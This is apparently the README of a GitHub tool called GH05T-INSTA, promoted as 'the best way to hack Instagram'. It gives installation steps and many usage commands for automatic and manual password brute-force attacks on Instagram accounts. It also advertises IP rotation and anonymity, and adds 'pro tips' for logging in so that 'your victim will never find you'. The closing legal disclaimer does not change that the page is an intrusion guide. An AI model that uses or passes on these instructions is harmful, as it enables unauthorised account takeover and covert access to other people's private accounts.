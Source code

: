 
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 {Linux}<p id="install"></p>

`install home\`

`$ cd home\`

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
* You can use two ways 🤺

01 ) Command Based ⬇️ (root)

## Usage Commands 

<b>AUTO ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ ./gh05t --user your-account-username --pass your-password-option 
$ ./gh05t --user mr_77778#8 --pass 2 
$ ./gh05t --user mr_fqake#@ --pass 3 
$ ./gh05t --user jdjza888#8 --pass 4 
$ ./gh05t --user gersman_9#6# --pass 6 
$ ./gh05t --user mr_77bd778#8 --pass 7 
$ ./gh05t --user ar_fake#@ --pass 8 
$ ./gh05t --user li888#8 --pass 9 
$ ./gh05t --user mtrman_9#6# --pass 10 
$ ./gh05t --user jr_77778#8 --pass 11 
$ ./gh05t --user ig_fake#@ --pass 12 
$ ./gh05t --user hsjza888#8 --pass 13 
$ ./gh05t --user gelian_9#6# --pass 14 
$ ./gh05t --user gehsghan_9#6# --pass 15 
$ ./gh05t --user jr7778#s8 --pass 16 
$ ./gh05t --user igahacke#@ --pass 17 
$ ./gh05t --user hsjd888#8 --pass 18 
$ ./gh05t --user gehdhan_9#6# --pass 19 
$ ./gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ ./gh05t --user username --passadd pwdlocation-and-name
$ ./gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ ./gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ ./gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ ./gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ ./gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ ./gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ ./gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ ./gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ ./gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ ./gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ ./gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ ./gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ ./gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
